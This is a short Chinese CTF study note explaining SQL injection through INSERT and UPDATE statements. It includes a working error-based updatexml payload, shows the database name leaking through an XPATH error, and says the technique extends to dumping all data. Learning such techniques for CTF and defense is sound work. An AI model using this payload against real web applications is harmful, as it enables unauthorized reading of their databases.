 ```yaml
---
layout: post
title: "insert、update 注入"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


## 原理

前端的输入可以直接拼接到后端的`insert、update`命令

## 命令

```sql
# insert命令
insert into member(username,pw,sex,phonenum,email,address) values('xxx',1,2,3,4,5);
```

`values('xxx',1,2,3,4,5)`括号内的数据没有经过处理直接拼接会造成 sql 注入漏洞

```sql
# 我们需要构造的命令
insert into member(username,pw,sex,phonenum,email,address) values('1' or updatexml(1,concat(0x7e,database()),0) or '',1,2,3,4,5);

# payload就是原来xxx的位置:
1' or updatexml(1,concat(0x7e,database()),0) or '

# 输入payload，返回结果：
XPATH syntax error: '~root'
```

- `or`判断会把左右的表达式先执行一遍
- 执行`updatexml()`函数时利用函数报错获取信息
- 接下来替换`database()`位置的命令就能得到数据库的全部数据(见**_基于函数报错的信息获取.md_**)
- ~~怎么会有个跳转连接,`.md`后缀被认为是网站了吗？~~
- `update`和`insert`一样，payload 通用
